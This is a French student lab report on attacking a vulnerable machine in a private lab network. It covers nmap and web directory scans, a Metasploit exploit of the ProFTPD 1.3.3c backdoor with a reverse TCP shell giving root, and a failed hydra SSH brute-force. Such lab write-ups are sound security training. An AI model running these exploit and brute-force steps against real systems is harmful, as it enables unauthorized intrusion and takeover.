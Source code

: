 # Rapport du TP2

Comme d'habitude on commence par scanner toutes les machines sur le réseau
`sudo netdiscover -r 10.0.2.0/24`

Cela nous permet d'obtenir l'adresse ip de la machine que l'on souhaite attaquer : 10.0.2.6/24

on commence par faire une analyse détaillée de tous les ports ouverts.
`nmap -sC -sV -A -p- 10.0.2.6`

![1732270069043](image/rapport-tp3/1732270069043.png)

On voit que 3 ports sont ouverts : le 21, le 22 et le 80

## Port 21

On peut essayer de se connecter en ftp (avec l'identifiant et le mdp 'ftp')
`ftp 10.0.2.6`
La connexion echoue.

![1732270713862](image/rapport-tp3/1732270713862.png)

Dans l'analyse des ports, on remarque que la version est "ProFTPD 1.3.3c"

On peut essayer d'utiliser `msfconsole` pour accéder au shell metasploit qui permet de rechercher des vulnérabilités.

`search PROFTPD 1.3.3c`

![1732274049690](image/rapport-tp3/1732274049690.png)

`use 0` pour séléctionner "exploit/unix/ftp/proftpd_133c_backdoor"

![1732274737827](image/rapport-tp3/1732274737827.png)

En accédant aux `options`, on constate que rhost n'est pas configuré. On défini donc l'ip de rhost.
`set rhost 10.0.2.6`

Rport est correctement cofiguré, on y touche pas.

On affiche les payloads

![1732274488451](image/rapport-tp3/1732274488451.png)

Dans notre cas, on veux une reverse TCP connexion donc on séléctionne l'élément 4 `set payload 4`

Dans les options, on voit que LHOST est requis mais n'est pas défini. Il faut donc lui assigné l'ip de la machine hôte.
`set lhost 10.0.2.4`

Avec la commande `run`, on peut maintenant exploiter la faille de sécurité pour se connecter en ftp.

![1732275074257](image/rapport-tp3/1732275074257.png)

On constate qu'une connexion est bien ouverte (10.0.2.4:4444 -> 10.0.2.6:34682) et si je tape la commande `whoami`, je suis bien utilisateur root. De plus, 

Je peux ouvrir un shell et faire toutes les manipulations souhaitées sur la machine cible en tant que root.

![1732275364664](image/rapport-tp3/1732275364664.png)

## Port 22

Le port 22 est associé à ssh donc on va faire une attaque brut force en utilisant hydra.
`sudo hydra -l root -p /usr/share/wordlists/metasploit/unix-users.txt -t 6 ssh://10.0.2.6`

Sans succès...

![1732271041497](image/rapport-tp3/1732271041497.png)

## Port 80

Il s'agit d'un serveur web, on peut se rendre à l'url `10.0.2.6`
On tombe sur une page web avec rien de spécial dessus.

![1732270433602](image/rapport-tp3/1732270433602.png)

En inspectant le code source de la page je ne vois rien non plus.

Je peux faire un scan nikto

`nikto -h 10.0.2.6`

![1732271735114](image/rapport-tp3/1732271735114.png)


Je peux également utliser dirb.

`dirb http://10.0.2.6`

On découvre dans les 2 cas un dossier "/secret"

On se rend donc à l'url `http://10.0.2.6/secret`

![1732271266395](image/rapport-tp3/1732271266395.png)

On tombe sur un "blog secret"

Lorsque l'on clique sur les lien, cela nous redirige vers une pga inacessible et l'url change `vtcsec/...`

![1732271364228](image/rapport-tp3/1732271364228.png)

Après avoir réussi à accéder à la machine en tant que root en passant par le port 21, je me rend compte que "vtcsec" correspond bien à l'utilisateur root

![1732275561481](image/rapport-tp3/1732275561481.png)